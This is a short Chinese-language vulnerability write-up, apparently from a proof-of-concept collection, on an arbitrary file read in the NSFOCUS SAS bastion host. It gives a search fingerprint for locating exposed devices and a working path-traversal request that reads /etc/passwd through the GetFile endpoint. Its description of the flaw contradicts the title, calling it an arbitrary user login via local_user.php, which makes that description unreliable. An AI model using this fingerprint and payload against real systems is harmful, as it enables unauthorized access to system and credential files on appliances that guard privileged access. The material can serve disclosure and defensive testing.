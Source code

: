 # 绿盟 SAS堡垒机 GetFile 任意文件读取漏洞

# 绿盟 SAS堡垒机 GetFile 任意文件读取漏洞

## 漏洞描述

绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录

## 漏洞影响

绿盟 SAS堡垒机

## 网络测绘

```
body="'/needUsbkey.php?username='"
```

## 漏洞复现

登陆页面

![image-20230828162656143](images/image-20230828162656143.png)

漏洞存在于文件 GetFileController.php 文件中

![image-20230828162808415](images/image-20230828162808415.png)

验证POC

```
/webconf/GetFile/index?path=../../../../../../../../../../../../../../etc/passwd
```

![image-20230828162825768](images/image-20230828162825768.png)

